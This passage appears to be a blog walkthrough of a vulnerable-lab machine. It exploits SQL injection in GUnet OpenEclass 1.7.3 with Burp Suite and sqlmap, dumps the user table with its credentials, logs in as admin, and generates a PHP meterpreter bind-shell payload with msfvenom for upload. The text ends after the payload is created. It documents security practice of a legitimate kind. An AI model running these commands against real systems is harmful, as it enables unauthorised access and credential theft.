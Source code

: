 The exploit 48106 revealed a ‘uname’ SQL Injection vulnerability fo the GUnet OpenEclass E-learning platform 1.7.3. To exploit the vulnerability, I first needed to capture a failed log-in request on http://192.168.8.132/vulnuni-eclass/ using burp-suite. I launched BurpSuite and configured my browser to handle http requests through a proxy at port 8080. I submitted a log in request using the username “admin” and the password “test”. BurpSuite captured the request, and I used the “send to repeater option” to save the request for editing.

![](https://i2.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-07-at-11.56.50-PM-1024x697.png?resize=768%2C523&ssl=1)

At this point, I encountered a small hiccup. Whenever http requests were sent to the vulnuni web application, the hostname was being resolved as VulnUni.local instead of http://192.168.8.132. This caused the http request to fail. To get around this issue, I needed to manually edit the burp-suite login capture to the ip address instead of the resolved hostname. Next, the exploit instructed me to download the intercepted http request as a file \(eclasstestlogin\) and load into SQL map with the following command.

```text
root@kali$ sqlmap -r eclasstestlogin –level=5 –risk=3 -v
```

![](https://i1.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-08-at-6.08.37-PM-1024x489.png?resize=768%2C367&ssl=1)

Using SQL map, I used several different flags to enumerate the vulnuni application. The final sqlmap command dumped the user table, which included usernames and passwords.

```text
root@kali$ sqlmap -r eclasstestlogin -v –current-db
root@kali$ sqlmap -r eclasstestlogin -v -D eclass –dump
root@kali$ sqlmap -r eclasstestlogin -v -D eclass -T user –dump
```

![](https://i0.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-08-at-10.25.25-PM-1024x532.png?resize=768%2C399&ssl=1)

Now that I obtained admin credentials from sqlmap, I logged into the application as the administrator. Once again, the http request was being resolved to vulnuni.local. To actually log into the application, I edited the raw request in burp-suite as shown below. After hitting send, I selected the Render” tab on the response, then right clicked and selected to open up in browser.

![](https://i1.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-08-at-11.40.59-PM-1024x572.png?resize=768%2C429&ssl=1)

Next, I navigated over to the other exploit identified earlier in the exploit-db. This exploit titled “GUnet OpenEclass 1.7.3 E-learning platform – ‘month’ SQL Injection” enables authenticated admins to upload reverse php shell files. To exploit this vulnerability, I used msfvenom to create a php meterpreter bind shell on port 4448.

```bash
root@kali$ msfvenom -p php/meterpreter/bind_tcp LHOST=192.168.8.130 LPORT=4448 R > bind-meterpreter.php
```

```text
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1338 bytes
```
